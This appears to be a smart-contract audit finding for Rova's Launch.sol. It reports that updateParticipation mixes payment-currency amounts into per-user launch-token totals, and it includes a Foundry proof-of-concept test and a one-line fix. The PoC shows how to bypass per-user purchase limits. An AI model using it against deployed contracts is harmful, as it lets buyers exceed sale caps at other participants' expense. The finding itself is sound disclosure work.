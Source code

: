 Shallow Coral Griffin

Medium

# Incorrect update of _userTokensByLaunchGroup in updateParticipation allows bypassing user max/min limits

### Summary

The `_userTokensByLaunchGroup` is incorrectly updated in updateParticipation. Since `_userTokensByLaunchGroup` can be set higher or lower than the actual value, it can be used to bypass `maxTokenAmountPerUser` and `minTokenAmountPerUser` limits.


### Root Cause

In [Launch.sol#L361](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L361) and [Launch.sol#L374](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L374), `_userTokensByLaunchGroup` is updated with incorrect values. It updates using `userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount)` or `userTokens.set(request.userId, userTokenAmount + additionalCurrencyAmount)`, where `userTokenAmount` is the amount of launch tokens requested by the user, and `refundCurrencyAmount` is the amount of payment tokens to be refunded, not the launch token request amount. `additionalCurrencyAmount` is the amount of additional tokens the user must pay. 


### Internal Pre-conditions

1. User calls `participate` to join a launch group
2. The difference becomes larger when the launch token and the payment token have different decimals or are significantly different in price, and when `tokenPriceBps` is changed. 


### External Pre-conditions

None

### Attack Path

1. User calls `updateParticipation` to adjust the requested launch token amount


### Impact

`_userTokensByLaunchGroup` is set to incorrect values. Since it can be set higher or lower than the actual value, users can bypass `maxTokenAmountPerUser` and `minTokenAmountPerUser` limits.


### PoC

You can run it by adding it in Launch.UpdateParticipation.t.sol 

```solidity
function test_PoC_UpdateParticipation() public {

    // Update tokenPriceBps
    vm.startPrank(manager);
    launch.setLaunchGroupCurrency(
        testLaunchGroupId, address(currency), CurrencyConfig({tokenPriceBps: (1 * 10 ** currency.decimals()) / 2, isEnabled: true}) // decrease tokenPriceBps
    );
    vm.stopPrank();
    
    uint256 tokensSold = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
    assertEq(tokensSold, 1000 * 10 ** launch.tokenDecimals());

    uint256 newTokenAmount = 1000; // new token amount is the same but tokenPriceBps is decreased
    uint256 newTokenAmountWithDecimals = newTokenAmount * 10 ** launch.tokenDecimals();
    // Prepare update participation request
    UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(newTokenAmount);
    bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

    vm.startPrank(user1);
    uint256 updatedCurrencyAmount =
        _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
    currency.approve(address(launch), updatedCurrencyAmount);

    // Update participation
    launch.updateParticipation(updateRequest, updateSignature);

    // Verify update
    ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
    assertEq(newInfo.tokenAmount, newTokenAmountWithDecimals);

    tokensSold = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
    assertLt(tokensSold, newTokenAmountWithDecimals);

    // user can buy more than maxTokenAmountPerUser because _userTokensByLaunchGroup is less than real value

    vm.stopPrank();
}
```

### Mitigation

Change to `userTokens.set(request.userId, userTokenAmount - prevInfo.tokenAmount + request.tokenAmount);`
